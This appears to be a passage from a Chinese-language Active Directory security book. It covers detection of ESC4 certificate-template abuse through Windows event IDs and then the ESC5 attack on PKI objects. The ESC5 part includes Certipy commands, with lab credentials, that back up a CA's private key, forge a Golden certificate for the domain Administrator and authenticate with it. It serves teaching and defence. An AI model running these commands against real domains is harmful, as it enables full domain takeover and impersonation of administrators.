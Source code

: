 ![图 8.30 – 成功利用 ESC4 进行攻击](img/B18964_08_30.jpg)

图 8.30 – 成功利用 ESC4 进行攻击

为了防止这种攻击，建议定期审查证书的 ACL，以确保仅将高权限分配给正确的用户组。通过事件 ID **5136**可以检测此类行为，但需要调整审计策略。此事件 ID 监控我们之前更改的关键证书模板属性的修改。另一个有助于检测该事件 ID 的是**4899**。然而，事件日志中并没有记录哪个账户进行了更改，并且只有在使用修改后的模板进行注册时，该事件才会被记录[20]。模板 AD 对象上的 SACL 也可以强制执行，从而在事件 ID **4662**中提供更细粒度的视图。

### ESC5 – 易受攻击的 PKI 对象访问控制

如果攻击者对以下对象具有某些权限，则可能会危及整个 PKI 系统：

+   CA 服务器的计算机账户

+   CA 服务器的 RPC/DCOM 服务器

+   在**CN=Public** **Key Services,CN=Services,** **CN=Configuration,DC=<COMPANY>,or** **DC=<COM>**容器中的任何后代对象/容器

例如，让我们讨论以下场景。一名攻击者通过 RBCD 成功攻击了 CA 服务器的计算机账户。获得访问权限后，CA 服务器上具有本地管理员权限的域账户的 NT 哈希值被转储。此时，攻击者可以伪造一个 Golden 证书。为了复制这个攻击，我将**viserys.targaryen**添加到本地管理员组中。

作为本地管理员，可以使用以下命令备份 CA 证书和私钥：

```
certipy-ad ca -backup -u viserys.targaryen -p GoldCrown -ca ESSOS-CA -target 192.168.56.23
```

接下来，我们将为域管理员伪造一个证书并用于身份验证。请记住，**-template**选项用于避免 Kerberos **KDC_ERR_CLIENT_NOT_TRUSTED**错误，这意味着伪造不正确：

```
Certipy-ad forge -ca-pfx ESSOS-CA.pfx -upn Administrator@essos.local -subject 'CN=Administrator,CN=Users,DC=essos,DC=local' -template khal.drogo.pfx
certipy-ad auth -pfx administrator_forged.pfx -dc-ip 192.168.56.12
```
